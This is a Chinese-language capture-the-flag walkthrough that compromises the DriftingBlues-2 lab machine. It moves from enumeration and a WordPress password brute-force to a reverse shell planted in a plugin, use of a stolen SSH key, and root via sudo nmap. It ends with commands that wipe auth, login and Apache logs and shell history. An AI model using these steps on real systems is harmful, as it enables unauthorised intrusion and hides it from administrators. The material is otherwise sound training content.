

# 前言

靶机：`DriftingBlues-2`

攻击：`kali`

都采用虚拟机技术，网卡为桥接模式

# 主机发现

使用`arp-scan -l`或者`netdiscover -r 192.168.1.1/24`


# 信息收集

## 使用nmap扫描端口


## 网站探测

访问80端口，只有背景图，查看页面源代码，也是如此


尝试进行目录扫描

使用`gobuster、dirsearch、dirb、dirbuster、ffuf`等工具

```shell
gobuster dir -u http://192.168.1.59 -w /usr/share/wordlists/dirb/big.txt -x php,zip,md,txt,html,jpg -b 404
```

当然这里使用`gobuster`只是进行一层目录扫描，不深入，想要深入，可以使用`dirsearch、dirb`


使用`dirb`效果演示


访问`/blog`目录，发现在连接时，在连接一个域名，并且，内容加载有问题，猜测可能需要绑定解析


使用`whatweb`进行指纹识别，确定CMS为`wordpress`


使用针对`wordpress`的扫描工具`wpscan`

```shell
wpscan --url http://192.168.1.59/blog
```


# 漏洞寻找

继续使用`wpscan`枚举用户

```shell
wpscan --url http://192.168.1.59/blog -e u
```

发现用户`albert`


尝试进行爆破，出现密码，用户名`albert`，密码`scotland1`

```shell
wpscan --url http://192.168.1.59/blog -e u -P /usr/share/wordlists/rockyou.txt 
```


访问`/blog/wp-admin`时，发现跳转域名，需要进行绑定，修改`/etc/hosts`文件后，可正常访问


# 漏洞利用

登录测试，发现登录成功，测试查看插件，发现一个插件，把该插件启用


然后编辑这个插件，测试能否修改，发现可以修改


把`kali`中的脚本`/usr/share/webshells/php/php-reverse-shell.php`复制到这里面，脚本中的`ip`是`kali`的ip地址


在`kali`中开启监听端口`1234`，浏览器刷新即可，因为这个插件就是用户登录后的右上角，打招呼`hello`的


# 靶机内信息收集

使用`compgen -c`或者`dpkg -l | grep python`，查看有无安装`python`


使用`python`获取一个交互式界面

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

使用`find`寻找具有SUID权限文件，发现`sudo`，但是需要密码


使用`find`寻找`capabilities`，并无可用

```shell
find / -type f -executable 2>/dev/null | xargs getcap -r 2>/dev/null
```



去网站目录下查看`wp-config.php`连接数据库的时候，有无使用靶机内的用户及密码，


查看当前靶机内的用户，只有`freddie`和`root`


到该用户的主目录，发现在其下的`.ssh`文件夹中的私钥文件`id_rsa`可读


# 提权

## 提权至freddie

把私钥文件`id_rsa`下载到`kali`或者复制到`kali`，然后指定该文件登录到`freddie`


突然想起之前的`ftp`端口打开，测试能否匿名访问，空密码登录成功

下载一个图片，测试有无隐藏信息，测试发现没有内容


那么就继续以`freddie`的`ssh`登录为主


## 提权至root

之前使用`find`寻找具有SUID权限时，有`sudo`，不过当时需要密码，这里还是没有密码，但是还是要测试一下

发现可以，不需要密码


这里就可以使用`nmap`通过`sudo`进行提权，因为这里不需要密码了。

那么如果不知道如何使用提权，可以查看网站`gtfobins.github.io`搜索使用


根据条件满足去使用，或者两种方法都测试也行，反正方法不多

```shell
第一种方式，是nmap的输入不会回显，才能使用
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF

第二种方式，需要nmap的版本对应2.02--5.21，可通过nmap --version查看
sudo nmap --interactive
nmap> !sh

这里的靶机nmap版本大于提权版本，所以使用第一种提权方式
第一种提权，在输入命令时，是看不到的，只能看到输出
```


# 清除痕迹

###### 网站恢复

把网站中的内容恢复原状，把复制的脚本内容删除，然后恢复插件的原本状态

可以在当前终端，或者网站执行

###### 各种日志清除

因为回显问题，所以这里不截图，放入命令

```shell
sed -i "/192.168.1.16/d" auth.log
echo > btmp
echo > lastlog
echo > wtmp
echo > apache2/access.log
echo > apache2>error.log
```

###### 历史记录清除

```shell
history -r 
history -c
```


# 总结

1. 考察`wordpress`模板中怎么寻找漏洞，以及工具`wpscan`熟练使用
2. 考察`ssh`服务的基本，这里主要以考察公私钥
3. 考察基本的`sudo`提权


